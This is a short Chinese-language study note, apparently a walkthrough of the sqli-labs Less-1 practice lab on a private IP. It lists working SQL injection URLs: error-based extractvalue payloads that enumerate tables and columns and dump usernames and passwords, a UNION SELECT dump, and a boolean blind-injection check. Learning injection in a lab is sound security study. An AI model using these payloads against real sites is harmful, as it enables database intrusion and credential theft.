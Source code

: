![image-20240820184345026](学习/笔记/assets/image-20240820184345026.png)

- 获取表名(emails,referers,uagents,users)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (extractvalue(1,concat(0x3a,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x3a))) --+
```

![image-20240820184921277](学习/笔记/assets/image-20240820184921277.png)

- 获取字段名(id,username,password)

```sql
http://192.168.77.131/master/Less-1/?id=1'and extractvalue(1,concat(0x3a,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x3a)) --+
```

![image-20240820194718757](学习/笔记/assets/image-20240820194718757.png)

- 获取数据(好像只能获取2两条数据)

```sql
http://192.168.77.131/master/Less-1/
?id=1' and extractvalue(1, concat(0x3a,(select group_concat(id, 0x3a, username, 0x3a, password) from security.users),0x3a)) --+
```

![image-20240820195336227](学习/笔记/assets/image-20240820195336227.png)

- 使用union获取所有数据

```sql
http://192.168.77.131/master/Less-1/?id=-1' UNION SELECT 1, (SELECT group_concat(id, 0x3a, username, 0x3a, password SEPARATOR 0x0a) FROM security.users), 3 --+
```

![image-20240820195416224](学习/笔记/assets/image-20240820195416224.png)

### 布尔盲注

- 判断数据库名字长度(使用``<``,``>``,``=``判断,过程省略了,这里判断为8-->``security``)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (length(database()))=8 --+
```

![image-20240820200601248](学习/笔记/assets/image-20240820200601248.png)

- 构造pyload进行密码爆破(使用burp)

![image-20240820200817160](学习/笔记/assets/image-20240820200817160.png)

![image-20240820200917513](学习/笔记/assets/image-20240820200917513.png)

![image-20240820200943027](学习/笔记/assets/image-20240820200943027.png)
